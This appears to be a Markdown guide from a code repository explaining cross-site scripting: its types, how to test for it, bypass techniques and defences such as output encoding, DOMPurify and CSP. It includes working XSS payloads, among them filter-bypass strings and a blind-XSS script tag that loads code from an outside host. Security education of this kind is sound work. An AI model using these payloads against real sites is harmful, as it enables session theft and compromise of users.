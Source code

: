 # XSS (Cross-Site Scripting) Vulnerabilities Guide

---

## What is XSS?

- **Cross-Site Scripting (XSS)** is a vulnerability that involves injecting **JavaScript** (or HTML/CSS) into a web page.
- It occurs when a website fails to properly **filter user input**, allowing an attacker to inject malicious code.
- When a user visits the affected page, the browser executes the injected script in the context of that page.

---

## How does XSS work?

- XSS works by **manipulating a vulnerable website** so it returns malicious JavaScript to users.
- When the code executes in a victim’s browser, the attacker can compromise their session, data, or perform unwanted actions.

---

## Types of XSS:

### Reflected XSS:
- Script is injected via input (e.g., search, URL) and **immediately reflected** in the response.
- **Example:**  
  `https://example.com/search?q=<script>alert(1)</script>`
- Requires user interaction (e.g., clicking a crafted link).

### Stored XSS:
- Malicious code is **persistently stored** (e.g., in a comment, profile, chat).
- Victims trigger it just by visiting the affected page.
- **Example:**  
  `<script src="https://js.rip/YOUR_CANARY"></script>` *(Blind XSS example, use XSS Hunter to catch it.)*

### DOM-Based XSS:
- Occurs entirely on the **client side** via manipulation of the DOM.
- The **server doesn't change** the response, but the JS code behaves differently.
- **Example:**
```js
var search = document.getElementById('search').value;
results.innerHTML = 'You searched for: ' + search;
// Input: <img src=x onerror='confirm()'>
```

---

## Where & How to test for XSS?

### General Steps:
1. Inject unique input (e.g., `test">test`) in various fields (URL, parameters, inputs).
2. Check reflection in responses or DOM.
3. Test with different payloads and observe behavior.

### Reflected XSS:
- Test points: URL parameters, headers, forms.
- Determine where input is reflected and test with JavaScript payloads.
- Try alternative encodings or bypasses.

### Stored XSS:
- Test fields: Comments, messages, profile fields, logs.
- Submit payloads like `<script>alert(1)</script>`.
- Observe if payload is executed when data is rendered.

### DOM-Based XSS:
- Look for parameters like `url=`, `returnurl=`, `redirect=`.
- Inject `javascript:confirm()` and observe changes in DOM.
- Use browser dev tools to trace how input is used in JS.

---

## Impact of XSS Vulnerabilities

- **Session Hijacking:** Stealing cookies or tokens.
- **Malicious Code Execution:** Redirections, fake forms, malicious actions.
- **Data Theft:** Stealing sensitive user information.
- **Website Defacement:** Changing page content or appearance.
- **Reputation Damage:** Loss of user trust.
- **Privilege Escalation:** If the victim is an admin.

### Stored vs Reflected:
- **Stored XSS** affects **every user** who visits the page.
- **Reflected XSS** requires **victim interaction** (e.g., click link).

---

## Bypass Techniques

### 1. **magic_quotes_gpc=ON**:
- Use `String.fromCharCode()`:
```html
<script>alert(String.fromCharCode(116,117,114,116,108,101,115));</script>
```

### 2. **HEX Encoding**:
- Encode payload:
```html
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3b%3c%2f%73%63%72%69%70%74%3e
```

### 3. **Obfuscation**:
```html
<sCrIpT>alert(1);</ScRiPt>
```

### 4. **Context-Based Adjustments**:
- Break and close tags smartly:
```html
test'</h1> <svg onload=confirm()> <!--
```

---

## What can XSS be used for?

1. **Stealing Cookies / Sessions**
2. **Website Defacement**
3. **Malware Spreading**
4. **Keylogging**
5. **DOM Data Theft**
6. **Bypassing Security Controls**

---

## How to prevent XSS?

### 1. **Input Validation & Sanitization**
- Validate formats (e.g., emails).
- Sanitize dangerous characters like `<`, `>`, `"`.

### 2. **Encoding Output**
- **HTML Encoding**:
```php
<?php echo htmlspecialchars($_GET['search']); ?>
```
- **JavaScript Encoding**
- **URL Encoding** using `encodeURIComponent`

### 3. **Safe JS APIs**
- Use `.textContent` instead of `.innerHTML`
- Use **DOMPurify**:
```js
var cleanHTML = DOMPurify.sanitize(userInput);
output.innerHTML = cleanHTML;
```
- Use `createElement` + `appendChild` instead of raw HTML.
- **Avoid `eval()`**
- Always use `encodeURIComponent()` for URLs.

### 4. **Content Security Policy (CSP)**
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
```

### 5. **Secure Headers**
- `X-Content-Type-Options: nosniff`
- `X-XSS-Protection: 1; mode=block` *(deprecated in modern browsers)*

### 6. **Avoid Inline Scripts**
- Use external event listeners instead of `onclick`.

### 7. **Secure Frameworks**
- Use frameworks like React, Angular, Vue — they escape by default.

### 8. **HTTPOnly & Secure Cookies**
- Prevent client-side JS from accessing cookies.

### 9. **Regular Audits**
- Use tools like **Burp Suite**, **OWASP ZAP**.
- Conduct regular **pentesting**.
